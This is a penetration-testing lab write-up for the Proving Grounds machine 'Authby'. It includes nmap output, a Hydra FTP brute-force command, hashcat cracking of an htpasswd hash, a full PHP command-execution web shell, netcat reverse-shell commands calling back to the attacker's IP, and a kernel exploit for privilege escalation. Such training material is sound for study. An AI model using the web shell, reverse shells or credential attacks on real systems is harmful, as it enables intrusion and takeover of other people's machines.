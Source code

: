 #### Mind Map

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/rooted202111141710.png)

#### Enumeration

```
# Nmap 7.91 scan initiated Mon Nov  8 07:23:31 2021 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Authby/AutoRecon/results/192.168.80.46/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Authby/AutoRecon/results/192.168.80.46/scans/xml/_full_tcp_nmap.xml 192.168.80.46
Nmap scan report for 192.168.80.46
Host is up, received user-set (0.30s latency).
Scanned at 2021-11-08 07:23:32 EST for 709s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT     STATE SERVICE            REASON          VERSION
21/tcp   open  ftp                syn-ack ttl 127 zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Nov 08 20:20 log
| ----------   1 root     root         2275 Aug 09  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Jul 26 21:51 accounts
242/tcp  open  http               syn-ack ttl 127 Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
|_http-title: 401 Authorization Required
3145/tcp open  zftp-admin         syn-ack ttl 127 zFTPServer admin
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 127
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2021-11-08T12:33:18+00:00
| ssl-cert: Subject: commonName=LIVDA
| Issuer: commonName=LIVDA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2021-06-03T21:15:17
| Not valid after:  2021-12-03T21:15:17
| MD5:   bb3f f979 9fc1 9d02 baa7 d0a4 9ccb 0922
| SHA-1: d0a1 8a6a 8326 1123 85f2 59e3 71ea c66c f3a4 048f
| -----BEGIN CERTIFICATE-----
| MIICzjCCAbagAwIBAgIQGttsFTOC+IFFUDrl75tnVzANBgkqhkiG9w0BAQUFADAQ
| MQ4wDAYDVQQDEwVMSVZEQTAeFw0yMTA2MDMyMTE1MTdaFw0yMTEyMDMyMTE1MTda
| MBAxDjAMBgNVBAMTBUxJVkRBMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKC
| AQEAw5XIXz8iD9nH+yWmmm8qL9mhTX2ePktQVr8V+9pejC7+QnNWIBRiQgn1n24f
| LXtl9fWPICyoHMRlMzPYZXddHGgFU8ld7UwJs2q5/egKfKE25T0Qp6GN8KesIzkn
| un0mIJY7eEx+U+KbjH6Yh7607bGmy3Mjpa18WqwF+i2WWBF8bXDvuZPkcWP2YWBQ
| 01LoDtUFGJ0KeCFIHFe5eCsREFkYKkqLhvGCYPl3EYKVY3Av2VE8VUtf2HadzF1s
| LBlefoT3p26bKr4guGhXUk8EXSNfHZAMl9mGlGX11A4RpVx/gna4Lx/elUYnfLNP
| oSVwjm2I4M/cQyeWXK670acSTwIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcD
| ATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQEFBQADggEBAHGQtYLWjpu4Mebquf3u
| xfUqqlq+012JEgM2W2j/ny/ax71gMxKa2jr6bWWhfN8j2cNe0tEsJYmaHsiq12l9
| OnOiJ6pSq9HBSp8lycCZ6uyXmPfcYYMuurcAf0dvUjBVbNr7vt74DogaJUzM7HH+
| Do+r1PIODTQdPPiBS+Ygmx1tyStwnMIg47WHslB5L22t31xruDx83l2BzUftdbPB
| /xy1v6LqHhKR/1JPVVbad5dGBJT5nZqPSM2NS6OmiUyZlZbvkLQo8WOnHgq7fSHu
| ylD3NdGLQzpIV6R6tzkY/Gw8gWLH3pFCppgxL7nsnYltPYPDqhT7WHudKsS6CrYC
| 3Ws=
|_-----END CERTIFICATE-----
|_ssl-date: 2021-11-08T12:33:24+00:00; -1m55s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=11/8%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=61891989%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=10C%TI=I%II=I%SS=S%TS=7)
OPS(O1=M54ENW8ST11%O2=M54ENW8ST11%O3=M54ENW8NNT11%O4=M54ENW8ST11%O5=M54ENW8ST11%O6=M54EST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M54ENW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.021 days (since Mon Nov  8 07:04:30 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1m55s, deviation: 0s, median: -1m55s

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   304.14 ms 192.168.49.1
2   304.23 ms 192.168.80.46

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  8 07:35:21 2021 -- 1 IP address (1 host up) scanned in 711.76 seconds

```

We access ftp with anonymous account and the folder contains three zftp account files.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_12h14m33s_001_.png)

I create a text file named users.txt and add usernanmes ```admin``` and ```offsec``` to each line.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_14h38m52s_002_.png)

Brute force attack with Hydra to obtain credentials. (I learned not to use rockyou.txt in the first place. You can try smaller dictionary files first.)

```
hydra -L users.txt -P /usr/share/wordlists/fasttrack.txt -t 20 -s 21 -f 192.168.73.46 ftp
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_14h42m07s_003_.png)

We log in to with admin account and download all the three files. The .htpasswd file stores username and password.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_14h49m19s_004_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h05m44s_005_.png)

Use hashcat to crack the apache md5 hash code and we get the recovery password ```elite```. ([hashcat -m {Hash-Mode}](https://hashcat.net/wiki/doku.php?id=example_hashes))

```
echo "$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0" > hash
hashcat -m 1600 hash -a 0 /usr/share/wordlists/rockyou.txt --force
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h10m18s_006_.png)

We use credential to pass HTTP authentication.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h21m10s_007_.png)

Now let's go back to the ftp directory, which looks like the root of the site.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h24m49s_008_.png)

We upload a php file that can execute system commands via system function. (Many php web sehlls do not work properly.) 

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h30m51s_009_.png)

Upload the netcat execution file via ftp.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h35m33s_010_.png)

Execute the command ```nc.exe -e cmd.exe 192.168.49.73 80``` to get the shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h38m12s_011_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h38m30s_012_.png)

Check the privileges. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h40m27s_013_.png)

#### Privilege Escalation

The target pc runs an old version os and no patched, so we can try to exploit kernel vulnerabilities.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h59m42s_014_.png)

After searching for a while I found the vulnerability [CVE-2018-8120](https://github.com/unamer/CVE-2018-8120) working.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_16h25m38s_015_.png)

We upload x86 version execution file and execute the netcat command ```nc.exe -e cmd.exe 192.168.49.73 3145```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_16h44m50s_016_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_16h45m09s_017_.png)
